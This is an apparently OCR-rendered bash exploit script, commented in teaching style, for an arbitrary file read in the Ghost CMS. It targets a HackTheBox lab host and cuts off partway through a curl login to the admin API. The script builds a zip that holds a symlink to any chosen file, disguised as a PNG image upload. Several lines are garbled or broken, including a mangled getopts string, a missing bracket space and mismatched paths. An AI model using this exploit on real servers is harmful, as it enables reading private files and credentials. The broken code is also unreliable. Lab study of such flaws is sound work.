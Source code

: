 ```bash
#Ghost Arbitrary File Read

GHOST_URL='http://linkvortex.htb'
#Administrator endpoint
GHOST_API="$GHOST_URL/ghost/api/v3/admin/"
API_VERSION='v3.0'

#Generating a folder where the script is executed
PAYLOAD_PATH="`dirname $0`/exploit"
#The name of the file
PAYLOAD_ZIP_NAME=exploit.zip

#Function to print usage showing how to execute the script
function usage() {
	echo "Usage: $ -u username -password"
}

#Reading arguments
#waiting two arguments -u -p
while getopts 'u:pÑ' flag; do
	#Processing options 
	case "${flag}" in
		#Saving values in a variable
		u) USERNAME="${OPTARG}" ;;
		p) PASSWORD="${OPTARG}" ;;
		#On error
		*) usage
			exit ;;
		esac
	done
	
#Checking if those variables are empty
if [[ -z $USERNAME || -z $PASSWORD]]; then
	usage
	exit
fi

#Function to generate the payload
function generate_exploit() {
	#A local variables with the first argument of the funcion
	local FILE_TO_READ=$1
	#Redirecting /dev/urandom to the standar input of tr
	#tr translates those into alphanumeric string
	#Getting only the firsts 13
	IMAGE_NAME=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 13; echo)
	#Creating the directory where the payload will be stored
	mkdir -p $PAYLOAD_PATH/content/images/2024/
	#Generating a symlink to the target file
	ln -s $FILE_TO_READ $PAYLOAD_PATH/content/image/2024/$IMAGE_NAME.png
	#Zipping payload with the symlink
	zip -r -y $PAYLOAD_ZIP_NAME $PAYLOAD_PATH/ &>/dev/null
}

function clean(){
	rm $PAYLOAD_PATH/content/images/2024/$IMAGE_NAME.png
	rm -ft $PAYLOAD_PATH
	rm $PAYLOAD_ZIP_NAME
}

#Sign into ghost and save cookie in cookie.txt
curl -c cookie.txt -d username=$USERNAME -d password=$PASSWORD \
	-H "Origin: $GHOST_URL" \
	-H "Accept-Version: v3.0" \
```